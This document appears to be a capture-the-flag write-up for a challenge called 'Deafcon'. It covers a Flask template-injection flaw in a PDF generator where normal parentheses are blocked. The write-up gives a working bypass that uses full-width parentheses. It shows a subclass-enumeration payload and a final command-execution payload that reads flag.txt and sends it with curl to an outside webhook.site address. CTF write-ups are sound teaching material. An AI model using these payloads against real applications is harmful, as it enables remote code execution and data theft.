






# Deafcon

```
Deafcon 2022 is finally here! Make sure you don't miss it.
```

## Challenge

> Flask SSTI with standard parenthesis blacklisted `()`, use the full-width variant instead `（）`.

Visiting the site, it allows us to generate a PDF using 2 input parameters (`name` and `email`):



<!--  -->

Attempting to inject a SSTI payload `{{191*7}}` in the `email` field revealed that SSTI is possible:

<!--  -->



> The `name` field only accepted `[a-zA-Z0-9_ ]` so we will be injecting via the email field.

Checking for any other blacklisted characters, we see that parenthesis is denied:



So let's try it out with a full-width bracket (url-encoded values `%EF%BC%88` and `%EF%BC%89`):



<!--  -->

Attempting to inject the SSTI payload to retrieve all loaded subclasses `{{''.__class__.__mro__[1].__subclasses__（）}}`:

<!--  -->



Shows that injection was successful and we are now able to find the index of `<class 'subprocess.Popen' >`, which was found at index 429. With access to `subprocess.Popen`, we are able to achieve RCE using the following payload in the `email` field:

<!--  -->

```
"{{''.__class__.__mro__[1].__subclasses__（）[429]（['cat flag.txt|xargs -I {} curl https://webhook.site/e3c7ad5f-a6fc-4479-8a24-ca5b45376017?flag={}'],shell=True）}}"@b.com
```

<!--  -->

which reads the flag and sends it to our controlled domain:



Flag: `	flag{001a305ac5ab4b4ea995e5719ab10104}`
